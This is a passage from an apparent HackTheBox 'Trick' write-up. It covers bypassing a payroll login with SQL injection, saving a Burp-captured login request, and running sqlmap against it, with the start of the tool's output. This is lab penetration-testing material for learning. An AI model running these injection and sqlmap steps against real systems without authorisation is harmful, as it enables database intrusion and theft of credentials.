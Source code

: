 We have db cred but no mysql open on the target and it doesn't work as ssh cred so it isn't very useful as of now

Back to the lfi, i wasn't able to include system files cause of this if i'm not mistaken this, `<?php $page = isset($_GET['page']) ? $_GET['page'] :'home'; ?>` the value of $page is either obtained from the $_GET['page'] array, or it is set to "home" if $_GET['page'] is not set. The $_GET array is used to collect data passed from a URL's query string.

So we bypassed the login page using sqli how about dumping the tables using sqlmap ?

I'll intercept the login request on burp then save the request
![image](https://user-images.githubusercontent.com/113513376/217157577-fdfeb2ab-a5c4-478e-8145-450baba85182.png)
![image](https://user-images.githubusercontent.com/113513376/217157696-480477ea-0fc0-4506-ba73-4c3c4c2e0902.png)

```
┌──(venv)─(mark__haxor)-[~/Desktop/B2B/HTB/Trick]
└─$ nano request
                                                                                                                                                                                                                   
┌──(venv)─(mark__haxor)-[~/Desktop/B2B/HTB/Trick]
└─$ cat request                
POST /ajax.php?action=login HTTP/1.1
Host: preprod-payroll.trick.htb.
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
Origin: http://preprod-payroll.trick.htb.
Connection: close
Referer: http://preprod-payroll.trick.htb./login.php
Cookie: PHPSESSID=il4jvdgq6keotif0t0tqdu7ple

username=lol&password=lol
```

Now i'll run sqlmap on the request

After few minutes sql showed it was vulnerable to a time based attack and boolean based sqli 

So i had to re-run the sqlmap and used Boolean based sqli as a technique sqlmap should use so as to save time

```
┌──(venv)─(mark__haxor)-[~/Desktop/B2B/HTB/Trick]
└─$ sqlmap -r request --batch --technique B --level 5 
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:49:58 /2023-02-07/

[06:49:58] [INFO] parsing HTTP request from 'request'
[06:49:58] [INFO] testing connection to the target URL
[06:49:59] [INFO] testing if the target URL content is stable
[06:50:00] [INFO] target URL content is stable
[06:50:00] [INFO] testing if POST parameter 'username' is dynamic
[06:50:01] [WARNING] POST parameter 'username' does not appear to be dynamic
```